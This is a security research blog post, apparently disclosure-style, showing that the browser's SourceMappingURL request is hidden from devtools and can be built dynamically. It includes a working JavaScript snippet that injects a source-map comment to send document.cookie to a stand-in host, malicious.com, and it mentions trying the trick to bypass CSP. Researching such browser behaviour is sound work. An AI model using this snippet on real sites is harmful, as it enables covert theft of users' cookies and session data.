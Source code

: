 I was curious about its implementation and was wondering regarding its potential security issues, so I decided to have a look at it myself.

It had immediately drawn my attention when I realized its first interesting property:

### [The request to SourceMappingURL is completely silent and hidden](https://us-central1-smap-251411.cloudfunctions.net/caseSourceMap)

If a script contains the `SourceMappingURL=` comment and is attached to the DOM, the browser will fire a request to the link specified after the `=` sign - but you won’t be able to tell that by looking at the devtools - you won’t see anything in the network panel nor the console panel - simply nowhere! The only way of telling that request had happened is by either using some sort of a network debugging proxy (such as [fiddler](https://www.telerik.com/fiddler) or [wireshark](https://www.wireshark.org/)) or looking for that request in `chrome://net-export` in Chrome browser for example. The response to this request however cannot be captured by client side Javascript since it is being handled by the browser itself (because the browser is the one to get the source map and use it to map the bundled resources to the original resources).

Now that caught my attention! Being able to fire a hidden request from the browser! now that’s powerful. This is where I wondered about other properties this request might have that might be abused by attackers.

So firing a hidden request is awesome and everything, but it is just a static request. I mean, if I could dynamically construct the url to which the SourceMappingURL request should go, that would be even more powerful.

### [The SourceMappingURL can be constructed dynamically (on-the-fly)](https://us-central1-smap-251411.cloudfunctions.net/dynamic)

The following works:

```javascript
function  smap(url, data)  {
	const script = document.createElement('script');
	script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
	document.head.appendChild(script);
	script.remove();  // that's right! the script doesn't even have to stay in DOM for this feature to work! how cool is that?!
}

smap('https://malicious.com/reportStolenCookies',  {cookie: document.cookie});
```

And since this works, I can leak any type of dynamic information I want from the browser at its current execution. I can steal cookies, report timestamp and generally collect any type of information I wish to report and simply add it to the SourceMappingURL in order to send it. This is some powerful stuff!

So far so good. But as I always do when I learn of a new trick to send requests from the browser - I tried to see if I can use this one to bypass [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) rules.

<ins class="adsbygoogle" style="display:block; text-align:center;" data-ad-layout="in-article" data-ad-format="fluid" data-ad-client="ca-pub-1379968351324902" data-ad-slot="5348991370"></ins><script>(adsbygoogle = window.adsbygoogle || []).push({});</script>
